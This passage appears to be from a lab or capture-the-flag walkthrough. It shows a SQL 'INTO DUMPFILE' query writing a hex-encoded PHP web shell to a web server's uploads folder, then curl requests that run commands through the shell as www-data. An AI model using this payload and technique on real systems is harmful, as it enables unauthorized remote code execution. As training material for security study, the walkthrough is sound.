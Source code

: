 ```python
query = f"SELECT 0x{hex_payload} INTO DUMPFILE '/var/www/html/uploads/shell.php'"

sql_data = {'db': 'shop', 'sql_query': query, 'token': token}
resp = session.post(sql_url, data=sql_data)

print(f"Status: {resp.status_code}")
if 'error' not in resp.text.lower():
    print("Shell upload successful!")
```

**SQL Query Executed:**
```sql
SELECT 0x3c3f7068702065636f207368656c6c5f6578656328245f4745545b2763275d293b203f3e 
INTO DUMPFILE '/var/www/html/uploads/shell.php'
```

### Verify Shell Upload

```bash
curl -s "http://172.19.4.10/uploads/"
```

**Output:**
```html
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td>
<td><a href="shell.php">shell.php</a></td>
<td align="right">2025-10-26 02:14  </td>
<td align="right">37</td><td>&nbsp;</td></tr>
```

✅ **Shell uploaded successfully!**

---

## Initial Access - www-data

### Testing Web Shell

```bash
curl -s "http://172.19.4.10/uploads/shell.php?c=id"
```

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

✅ **Remote Code Execution achieved as www-data!**

### System Enumeration

```bash
# Check current user
curl -s "http://172.19.4.10/uploads/shell.php?c=whoami"
```
**Output:** `www-data`
